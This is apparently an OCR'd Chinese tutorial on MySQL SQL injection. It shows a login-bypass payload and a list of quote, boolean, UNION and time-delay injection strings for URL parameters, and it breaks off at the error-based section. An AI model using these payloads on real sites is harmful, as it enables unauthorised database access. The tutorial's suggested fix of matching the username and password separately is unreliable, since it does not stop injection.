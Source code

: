 SQL 注入漏洞是一种通过将恶意的 SQL 代码注入到应用程序的数据库查询中，从而未经授权地访问、修改或破坏数据库数据的安全漏洞。

## 1 MySQL 的 SQL 注入

> 在 sql 语句中 1 位数字，'1' 为字符，（但是1=’1‘），'a' 必须有单引号

当在前端输入用户名和密码时，系统可能会执行以下命令查询数据库中匹配的用户名和密码

```sql
select * from users where username='用户名' and password='密码'
```

在没有过滤的表单中可以在用户名提交以下字符

```
admin' or 1=1 --空格
```

> `--空格` 代表注释，有时需要使用 `#` 注释

得到

```sql
select * from users where username='admin' or 1=1 -- ' and password='密码'
```

> 若想防止这种 SQL 注入，将用户名和密码分开匹配即可

1. **单引号测试（'）：**

   ```
   ?id=1'
   ```

2. **双引号测试（"）：**

   ```
   ?id=1"
   ```

3. **错误消息分析：**

   ```
   ?id=1' AND 1=1--
   ?id=1' AND 1=2--
   ```

4. **布尔测试：**

   ```
   ?id=1' AND SLEEP(5)--
   ?id=1' AND 1=2 UNION SELECT 1,2,3--
   ```

5. **时间延迟测试：**

   ```
   ?id=1' AND SLEEP(5)--
   ?id=1' WAITFOR DELAY '0:0:5'--
   ```

6. **报错注入：**
